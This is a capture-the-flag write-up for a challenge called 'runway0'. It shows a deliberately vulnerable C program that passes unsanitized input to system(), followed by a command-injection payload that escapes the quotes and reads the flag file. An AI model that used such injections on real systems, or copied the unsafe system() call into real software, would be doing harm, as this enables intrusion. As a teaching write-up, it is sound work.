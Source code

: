 # runway0

This challenge provided the following c progam:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char command[110] = "cowsay \"";
    char message[100];

    printf("Give me a message to say!\n");
    fflush(stdout);

    fgets(message, 0x100, stdin);

    strncat(command, message, 98);
    strncat(command, "\"", 2);

    system(command);
}
```

This challenge has two vulnerabilities. First, that it calls "fgets" with 0x100 = 256 bytes to read in, whereas `message` is 100 bytes. 
The other vulnerability, which is easier to exploit, is that the message is never sanitized, meaning that we can make use of a `"` at the
start of our input to escape the quotes. We can then use the `&` operator to run whatever we want, in my case to `cat` the  flag. So here's my final
interaction with the server:

```
Give me a message to say!
" & cat flag.txt
bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}sh: 2: Syntax error: Unterminated quoted string
```

Giving the flag `bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}`
